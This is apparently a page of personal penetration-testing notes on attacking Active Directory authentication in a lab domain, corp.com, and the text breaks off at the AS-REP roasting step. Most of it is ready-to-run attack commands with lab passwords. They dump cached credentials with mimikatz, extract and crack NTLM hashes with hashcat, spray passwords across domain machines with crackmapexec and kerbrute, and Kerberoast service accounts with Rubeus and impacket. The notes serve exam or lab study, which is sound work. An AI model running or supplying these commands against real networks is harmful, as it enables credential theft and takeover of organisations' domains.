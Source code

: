 # Active directory authentication attack   
- 👥 Cached AD credentials
  - **Local admin (jeff)** on **client75**  
    `xfreerdp3 /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.200.75 /cert:ignore /drive:share,/home/kali/share`
  - start mimikatz with admin mode and dump credentials
    ```
    PS C:\Tools\> .\mimikatz.exe
    log C:\Users\jeff\Desktop\creds.txt
    privilege::debug
    sekurlsa::logonpasswords
    log off
    ```
  - retrieve unique ntlm for each users  
    ```
    Get-Content C:\Users\<user>\Desktop\creds.txt |
    Select-String -Pattern "Username|NTLM|Logon Server" |
    ForEach-Object { $_.Line.Trim() } |
    Select-Object -Unique
    ```
  - crack the hash **1000 hashes.ntlm**
    ```
    nano hashes.txt (only NTLM value)
    hashcat -m 1000 hash.ntlm.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force     
    ```
- Password spray & authentication checks
  - check password policy
    `net accounts`
  - spray the **credentails** of user against all domain joined machines
    ```
    #option 1 - Spray-Passwords 
    PS C:\Tools> powershell -ep bypass
    PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
    
    #option 2 - crackapexec
    kali@kali:~$ crackmapexec smb <192.168.188.70-192.168.188.76> -u <user> -p '<password>' -d corp.com --continue-on-success
    kali@kali:~$ crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com #check for (Pwn3d!) admin priviledge

    #option 3 - Kerbrute
    PS C:\Tools> type .\usernames.txt
    PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
    ```
- Kerberos attacks (service account)  
  - Enumerate service accounts  
    `Get-NetUser -SPN | select samaccountname,serviceprincipalname`
  - Requests service tickets (TGS) for all service account    
    `PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast`  
  - crack the hash **13100 hash.kerberoast**  
    `kali@kali:~$ sudo hashcat -m 13100 hash.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
  - Alternate tool - impacket-GetUserSPNs  
    `kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`
  - Python  
    `kali@kali:~$ GetUserSPNs.py -request -dc-ip 192.168.188.70 corp.com/`
- AS-REP roast (accounts without preauth) - Kali Pre-attack with a valid credential
  - **DC1 pete**  
    `xfreerdp3 /u:pete /d:corp.com /p:'Nexus123!' /v:192.168.200.70 /cert:ignore /drive:share,/home/kali/share`  
  - Find Vulnerable Users Does not require Kerberos preauthentication  
    ```